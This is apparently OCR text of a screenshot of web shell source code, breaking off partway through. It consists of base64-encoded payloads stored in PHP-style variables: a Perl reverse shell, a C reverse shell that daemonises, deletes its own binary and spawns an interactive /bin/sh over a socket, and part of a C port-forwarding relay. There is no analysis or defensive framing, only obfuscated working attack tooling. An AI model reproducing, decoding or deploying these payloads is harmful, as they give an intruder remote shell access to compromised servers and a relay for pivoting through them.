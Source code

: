 Q0Kew0KZGllICJDYW5ub3QgZm9yayIgaWYgKCFkZWZpbmVkICRwaWQpOw0Kb3BlbiBTVERJTiwiPCZDT05OIjsNCm9wZW4gU1RET1VULCI+JkNPTk4i
Ow0Kb3BlbiBTVERFUlIsIj4mQ09OTiI7DQpleGVjICRTSEVMTCB8fCBkaWUgcHJpbnQgQ09OTiAiQ2FudCBleGVjdXRlICRTSEVMTFxuIjsNCmNsb3N
lIENPTk47DQpleGl0IDA7DQp9DQp9";
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj
aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR
hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT
sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI
kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi
KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl
OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
$back_connect_c="I2luY2x1ZGUgPHN0ZGlvLmg+DQojaW5jbHVkZSA8c3lzL3NvY2tldC5oPg0KI2luY2x1ZGUgPG5ldGluZXQvaW4uaD4NCmludC
BtYWluKGludCBhcmdjLCBjaGFyICphcmd2W10pDQp7DQogaW50IGZkOw0KIHN0cnVjdCBzb2NrYWRkcl9pbiBzaW47DQogY2hhciBybXNbMjFdPSJyb
SAtZiAiOyANCiBkYWVtb24oMSwwKTsNCiBzaW4uc2luX2ZhbWlseSA9IEFGX0lORVQ7DQogc2luLnNpbl9wb3J0ID0gaHRvbnMoYXRvaShhcmd2WzJd
KSk7DQogc2luLnNpbl9hZGRyLnNfYWRkciA9IGluZXRfYWRkcihhcmd2WzFdKTsgDQogYnplcm8oYXJndlsxXSxzdHJsZW4oYXJndlsxXSkrMStzdHJ
sZW4oYXJndlsyXSkpOyANCiBmZCA9IHNvY2tldChBRl9JTkVULCBTT0NLX1NUUkVBTSwgSVBQUk9UT19UQ1ApIDsgDQogaWYgKChjb25uZWN0KGZkLC
Aoc3RydWN0IHNvY2thZGRyICopICZzaW4sIHNpemVvZihzdHJ1Y3Qgc29ja2FkZHIpKSk8MCkgew0KICAgcGVycm9yKCJbLV0gY29ubmVjdCgpIik7D
QogICBleGl0KDApOw0KIH0NCiBzdHJjYXQocm1zLCBhcmd2WzBdKTsNCiBzeXN0ZW0ocm1zKTsgIA0KIGR1cDIoZmQsIDApOw0KIGR1cDIoZmQsIDEp
Ow0KIGR1cDIoZmQsIDIpOw0KIGV4ZWNsKCIvYmluL3NoIiwic2ggLWkiLCBOVUxMKTsNCiBjbG9zZShmZCk7IA0KfQ==";
$datapipe_c="I2luY2x1ZGUgPHN5cy90eXBlcy5oPg0KI2luY2x1ZGUgPHN5cy9zb2NrZXQuaD4NCiNpbmNsdWRlIDxzeXMvd2FpdC5oPg0KI2luY2
x1ZGUgPG5ldGluZXQvaW4uaD4NCiNpbmNsdWRlIDxzdGRpby5oPg0KI2luY2x1ZGUgPHN0ZGxpYi5oPg0KI2luY2x1ZGUgPGVycm5vLmg+DQojaW5jb
HVkZSA8dW5pc3RkLmg+DQojaW5jbHVkZSA8bmV0ZGIuaD4NCiNpbmNsdWRlIDxsaW51eC90aW1lLmg+DQojaWZkZWYgU1RSRVJST1INCmV4dGVybiBj
aGFyICpzeXNfZXJybGlzdFtdOw0KZXh0ZXJuIGludCBzeXNfbmVycjsNCmNoYXIgKnVuZGVmID0gIlVuZGVmaW5lZCBlcnJvciI7DQpjaGFyICpzdHJ
lcnJvcihlcnJvcikgIA0KaW50IGVycm9yOyAgDQp7IA0KaWYgKGVycm9yID4gc3lzX25lcnIpDQpyZXR1cm4gdW5kZWY7DQpyZXR1cm4gc3lzX2Vycm
xpc3RbZXJyb3JdOw0KfQ0KI2VuZGlmDQoNCm1haW4oYXJnYywgYXJndikgIA0KICBpbnQgYXJnYzsgIA0KICBjaGFyICoqYXJndjsgIA0KeyANCiAga
W50IGxzb2NrLCBjc29jaywgb3NvY2s7DQogIEZJTEUgKmNmaWxlOw0KICBjaGFyIGJ1Zls0MDk2XTsNCiAgc3RydWN0IHNvY2thZGRyX2luIGxhZGRy
LCBjYWRkciwgb2FkZHI7DQogIGludCBjYWRkcmxlbiA9IHNpemVvZihjYWRkcik7DQogIGZkX3NldCBmZHNyLCBmZHNlOw0KICBzdHJ1Y3QgaG9zdGV
udCAqaDsNCiAgc3RydWN0IHNlcnZlbnQgKnM7DQogIGludCBuYnl0Ow0KICB1bnNpZ25lZCBsb25nIGE7DQogIHVuc2lnbmVkIHNob3J0IG9wb3J0Ow
0KDQogIGlmIChhcmdjICE9IDQpIHsNCiAgICBmcHJpbnRmKHN0ZGVyciwiVXNhZ2U6ICVzIGxvY2FscG9ydCByZW1vdGVwb3J0IHJlbW90ZWhvc3Rcb
iIsYXJndlswXSk7DQogICAgcmV0dXJuIDMwOw0KICB9DQogIGEgPSBpbmV0X2FkZHIoYXJndlszXSk7DQogIGlmICghKGggPSBnZXRob3N0YnluYW1l
KGFyZ3ZbM10pKSAmJg0KICAgICAgIShoID0gZ2V0aG9zdGJ5YWRkcigmYSwgNCwgQUZfSU5FVCkpKSB7DQogICAgcGVycm9yKGFyZ3ZbM10pOw0KICA
gIHJldHVybiAyNTsNCiAgfQ0KICBvcG9ydCA9IGF0b2woYXJndlsyXSk7DQogIGxhZGRyLnNpbl9wb3J0ID0gaHRvbnMoKHVuc2lnbmVkIHNob3J0KS
hhdG9sKGFyZ3ZbMV0pKSk7DQogIGlmICgobHNvY2sgPSBzb2NrZXQoUEZfSU5FVCwgU09DS19TVFJFQU0sIElQUFJPVE9fVENQKSkgPT0gLTEpIHsNC
iAgICBwZXJyb3IoInNvY2tldCIpOw0KICAgIHJldHVybiAyMDsNCiAgfQ0KICBsYWRkci5zaW5fZmFtaWx5ID0gaHRvbnMoQUZfSU5FVCk7DQogIGxh